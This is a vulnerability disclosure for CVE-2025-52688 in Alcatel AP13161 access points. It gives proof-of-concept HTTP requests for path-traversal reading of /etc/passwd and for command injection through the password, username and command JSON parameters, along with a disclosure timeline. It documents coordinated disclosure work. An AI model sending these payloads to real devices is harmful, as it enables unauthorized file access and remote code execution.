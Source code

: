 # CVE-2025-52688
## Affected Products
Alcatel AP13161 - Enterprise WIFI access point

## Summary
There are 2 main vulnerabilities being addressed here:
- Lack of input sanization on multiple JSON web parameters that allows malicious characters such as ```;``` to be injected to caused a command injection attack
- Lack of proper sanitization and access control on the ```fileName``` parameters that allows unauthorized arbitary file read on the server

This vulnerability was discovered during SPIRICYBER-24 IoT/OT Hackathon organized by CSA(Cybersecurity Agency of Singapore) & NTU

## POC
### File Read POC
The ```fileName``` parameter allows any unauthenticated user to be able to view any files on the system. By traversing through the directories, we are able to read sensitive files on the server
```
POST /echo.fcgi HTTP/1.1
Host: XXXXX
User-Agent: Mozilla/5.0 (Linux; U; Android 7.0; en-us; MI 5 Build/NRD90M) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/53.0.2785.146 Mobile Safari/537.36 XiaoMi/MiuiBrowser/9.0.3
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Content-Length: 110
Connection: keep-alive
{
    "id":1,
    "jsonrpc":"2.0",
    "username":"xxx",
    "method":"downloader.cert",
    "params":{
        "fileName":"/../../etc/passwd"
    }
}
```

### RCE POC #1
The ```password``` parameter on ```/apiaccess``` endpoint is vulnerable to unauthenticated command injection vulnerability that allows any unauthenticated users to execute system commands

```
POST /apiaccess HTTP/1.1
Host: XXXX
Cache-Control: max-age=0
Accept-Language: en-GB
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
{
    "id":1,
    "jsonrpc":"2.0",
    "method":"system.getPvc",
    "params":{
        "username": "Administrator",
        "password":";echo pwned1234 > /tmp/test.txt"
    }
}
```

### RCE POC #2
The ```username``` parameter on the ```echo.fcgi``` endpoint is vulnerable to unauthenticated command injection vulnerablity that allows any unauthenticated users to execute system commands

```
POST /echo.fcgi HTTP/1.1
Host: 
Cache-Control: max-age=0
Accept-Language: en-GB
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: application/json, text/plain, */*
{
    "id":1,
    "jsonrpc":"2.0",
    "username":"Administrator",
    "method":"user.logout",
    "params":{
        "username": ";echo pwned > /tmp/test.txt",
        "Sessionid":""
    }
}
```

### RCE POC #3
The ```command``` parameter allows authenticated users to execute system functions and binaries to test the functionality of the lamp post. However, due to insufficient input filtering and blacklist, we are able to bypass the filters to execute an aunthenticated remote code execution that allows any logged in users to execute system commands

```
POST /echo.fcgi HTTP/1.1
Host: XXXX
Content-Length: 349
Accept: application/json, text/plain, */*
Accept-Language: en-GB
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Content-Type: application/json
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
{
    "id":1,
    "jsonrpc":"2.0",
    "method":"expressmessage.call",
    "username":"Administrator",
    "session":"XXXXXX",
    "topic":"WMA/DC:XXXXXXX",
    "params":{
        "version":"3.0",
        "messageID":1,
        "macAddress":"DC:XXXXX",
        "option":"update",
        "method":"ap_manage.exce_command",
        "contents":{
            "command":"tech_support_command 9 127.0.0.1\nid"
       }
    }
}
```

# Timeline

2024-08-10: Report submitted to SpiritCyber IoT Hackathon triage team

2024-08-20: Report accepted by triage team

2025-06-25: CSA SingCert assigns CVE-2025-52688

2025-07-14: Public disclosure

# Advisory
https://www.csa.gov.sg/alerts-and-advisories/alerts/al-2025-072

https://www.al-enterprise.com/-/media/567414972b57459697030898f92ac043.pdf
